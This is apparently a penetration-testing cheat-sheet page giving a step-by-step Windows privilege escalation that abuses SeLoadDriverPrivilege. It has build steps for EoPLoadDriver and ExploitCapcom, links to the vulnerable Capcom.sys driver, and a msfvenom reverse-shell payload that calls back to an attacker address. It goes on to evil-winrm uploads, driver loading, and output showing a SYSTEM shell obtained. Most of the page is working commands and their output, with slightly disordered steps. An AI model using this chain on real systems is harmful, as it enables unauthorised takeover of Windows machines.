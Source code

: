 ```yaml
---
title: "SeLoadDriverPrivilege"
date: 2024-7-18
tags: ["Exploitation", "SeLoadDriverPrivilege", "Privilege Escalation", "Windows", "Reverse Shell"]
---
```


### Abuse #1: Install malicious driver

#### 1. Compile eoploaddriver

```console
+---------------------------------------------------------------------------------------+
| 1. Open Visual Studio 2022                                                            |
| 2. Create a new project                                                               |
| 3. Project Template : C++ Console App                                                 |
| 4. Project Name     : Eoploaddriver                                                   |
| 5. Replace code     : eoploaddriver.cpp                                               |
| 6. Remove header    : `include "stdafx.h"`                                            |
| 7. Release -> x64                                                                     |
| 8. Build   -> Build Solution                                                          |
| 9. Exported to C:\Users\user\source\repos\Eoploaddriver\x64\Release\Eoploaddriver.exe |
+---------------------------------------------------------------------------------------+
```

<small>*Ref: [eoploaddriver.cpp](https://github.com/TarlogicSecurity/EoPLoadDriver/blob/master/eoploaddriver.cpp)*</small>

#### 2. Download Capcom.sys

[Capcom.sys](https://github.com/FuzzySecurity/Capcom-Rootkit/blob/master/Driver/Capcom.sys)

#### 3. Compile ExploitCapcom

```console
+----------------------------------------------------------------------------------------+
| 1. Double click ExploitCapcom.sln                                                      |
| 2. Replace the payload to `TCHAR CommandLine[] = TEXT("C:\\ProgramData\\rev.exe");` |
| 3. Release -> x64                                                                      |
| 4. Build   -> Build Solution                                                           |
| 5. Exported to .\x64\Release\ExploitCapcom.exe                                         |
+----------------------------------------------------------------------------------------+
```

<small>*Ref: [ExploitCapcom](https://github.com/tandasat/ExploitCapcom/tree/master/ExploitCapcom)*</small>

#### 3. Create stageless payload

```console
msfvenom -p windows/x64/shell_reverse_tcp LHOST=<LOCAL_IP> LPORT=<LOCAL_PORT> -f exe -o rev.exe
```

```console {class="sample-code"}
$ msfvenom -p windows/x64/shell_reverse_tcp LHOST=10.10.14.31 LPORT=1337 -f exe -o rev.exe
[-] No platform was selected, choosing Msf::Module::Platform::Windows from the payload
[-] No arch selected, selecting arch: x64 from the payload
No encoder specified, outputting raw payload
Payload size: 460 bytes
Final size of exe file: 7168 bytes
Saved as: rev.exe
```

#### 4. Upload

```console
# For example (evil-winrm)
upload EoPLoadDriver.exe C:\ProgramData\EoPLoadDriver.exe
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\programdata> upload EoPLoadDriver.exe C:\ProgramData\EoPLoadDriver.exe
                                        
Info: Uploading /home/kali/EoPLoadDriver.exe to C:\ProgramData\EoPLoadDriver.exe
                                        
Data: 20480 bytes of 20480 bytes copied
                                        
Info: Upload successful!
```

```console
upload Capcom.sys C:\ProgramData\Capcom.sys
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\programdata> upload Capcom.sys C:\ProgramData\Capcom.sys
                                        
Info: Uploading /home/kali/Capcom.sys to C:\ProgramData\Capcom.sys
                                        
Data: 14100 bytes of 14100 bytes copied
                                        
Info: Upload successful!
```

```console
upload ExploitCapcom.exe C:\ProgramData\ExploitCapcom.exe
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\programdata> upload ExploitCapcom.exe
                                        
Info: Uploading /home/kali/ExploitCapcom.exe to C:\programdata\ExploitCapcom.exe
                                        
Data: 335188 bytes of 335188 bytes copied
```

```console
upload rev.exe C:\ProgramData\rev.exe
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\programdata> upload rev.exe C:\ProgramData\rev.exe
                                        
Info: Uploading /home/kali/rev.exe to C:\ProgramData\rev.exe
                                        
Data: 9556 bytes of 9556 bytes copied
                                        
Info: Upload successful!
```

#### 5. Exploit

```console
# Start a nc listener
rlwrap nc -lvnp <LOCAL_PORT>
```

```console {class="sample-code"}
$ rlwrap nc -lvnp 1337                                                                                                    
listening on [any] 1337 ...
connect to [10.10.14.31] from (UNKNOWN) [10.10.10.193] 49855
Microsoft Windows [Version 10.0.14393]
(c) 2016 Microsoft Corporation. All rights reserved.

C:\programdata>whoami
whoami
nt authority\system
```

```console
C:\ProgramData\Eoploaddriver.exe System\CurrentControlSet\test C:\ProgramData\Capcom.sys
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\programdata> C:\ProgramData\ExploitCapcom.exe
[*] Capcom.sys exploit
[*] Capcom.sys handle was obtained as 0000000000000064
[*] Shellcode was placed at 000001937C0C0008
[+] Shellcode was executed
[+] Token stealing was successful
[-] CreateProcess() failed
```

```console
C:\ProgramData\ExploitCapcom.exe
```

```console {class="sample-code"}
*Evil-WinRM* PS C:\programdata> C:\ProgramData\ExploitCapcom.exe
[*] Capcom.sys exploit
[*] Capcom.sys handle was obtained as 0000000000000064
[*] Shellcode was placed at 00000221D2140008
[+] Shellcode was executed
[+] Token stealing was successful
[+] The SYSTEM shell was launched
[*] Press any key to exit this program
```